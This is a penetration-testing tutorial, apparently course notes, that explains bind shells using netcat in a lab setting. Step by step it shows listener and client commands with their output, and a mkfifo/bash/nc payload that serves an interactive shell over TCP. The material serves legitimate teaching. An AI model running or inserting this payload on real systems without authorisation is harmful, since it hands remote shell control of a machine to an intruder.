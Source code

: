 # Bind Shells

In many cases, we will be working to establish a shell on a system on a local or remote network. This means we will be looking to use the terminal emulator application on our local attack box to control the remote system through its shell. This is typically done by using a `Bind` &/or `Reverse` shell.

## What Is It?

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

## **Bind Example**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)   (4).png" alt=""><figcaption></figcaption></figure>

As seen in the image, we would connect directly with the `IP address` and `port` listening on the target. There can be many challenges associated with getting a shell this way. Here are some to consider:

* There would have to be a listener already started on the target.
* If there is no listener started, we would need to find a way to make this happen.
* Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
* Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

OS firewalls can be troublesome when establishing a shell since we need to consider IP addresses, ports, and the tool in use to get our connection working successfully. In the example above, the application used to start the listener is called [GNU Netcat](https://en.wikipedia.org/wiki/Netcat). `Netcat` (`nc`) is considered our `Swiss-Army Knife` since it can function over TCP, UDP, and Unix sockets. It's capable of using IPv4 & IPv6, opening and listening on sockets, operating as a proxy, and even dealing with text input and output. We would use nc on the attack box as our `client`, and the target would be the `server`.

Let's get a more in-depth understanding of this by practicing with Netcat and establishing a bind shell connection with a host on the same network with no restrictions in place.

## Practicing with GNU Netcat

First, we need to spawn our attack box or Pwnbox and connect to the Academy network environment. Then make sure our target is started. In this scenario, we will be interacting with an Ubuntu Linux system to understand the nature of a bind shell. To do this, we will be using `netcat` (`nc`) on the client and server.

### **No. 1: Server - Target starting Netcat listener**

Once connected to the target box with ssh, start a Netcat listener:

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

In this instance, the target will be our server, and the attack box will be our client. Once we hit enter, the listener is started and awaiting a connection from the client.

### **No. 2: Client - Attack box connecting to target**

Back on the client (attack box), we will use nc to connect to the listener we started on the server.

```bash
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

Notice how we are using nc on the client and the server. On the client-side, we specify the server's IP address and the port that we configured to listen on (`7777`). Once we successfully connect, we can see a `succeeded!` message on the client as shown above and a `received!` message on the server, as seen below.

### **No. 3: Server - Target receiving connection from client**

```shell-session
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received! 
```

Know that this is not a proper shell. It is just a Netcat TCP session we have established. We can see its functionality by typing a simple message on the client-side and viewing it received on the server-side.

### **No. 4: Client - Attack box sending message Hello Academy**

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy  
```

Once we type the message and hit enter, we will notice the message is received on the server-side.

### **No. 5: Server - Target receiving Hello Academy message**

```shell-session
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

{% hint style="info" %}
Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.
{% endhint %}

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

### **No. 1: Server - Binding a Bash shell to the TCP session**

```shell-session
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

### **No. 2: Client - Connecting to bind shell on target**

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.

```shell-session
al1abb@htb[/htb]$ nc -nv 10.129.41.200 7777

Target@server:~$  
```

We will notice that we have successfully established a bind shell session with the target. Keep in mind that we had complete control over both our attack box and the target system in this scenario, which isn't typical. We worked through these exercises to understand the basics of the bind shell and how it works without any security controls (NAT enabled routers, hardware firewalls, Web Application Firewalls, IDS, IPS, OS firewalls, endpoint protection, authentication mechanisms, etc...) in place or exploits needed. This fundamental understanding will be helpful as we get into more challenging situations and realistic scenarios working with vulnerable systems.

As mentioned earlier in this section, it is also good to remember that the bind shell is much easier to defend against. Since the connection will be received incoming, it is more likely to get detected and blocked by firewalls even if standard ports are used when starting a listener. There are ways to get around this by using a reverse shell which we will discuss in the next section.
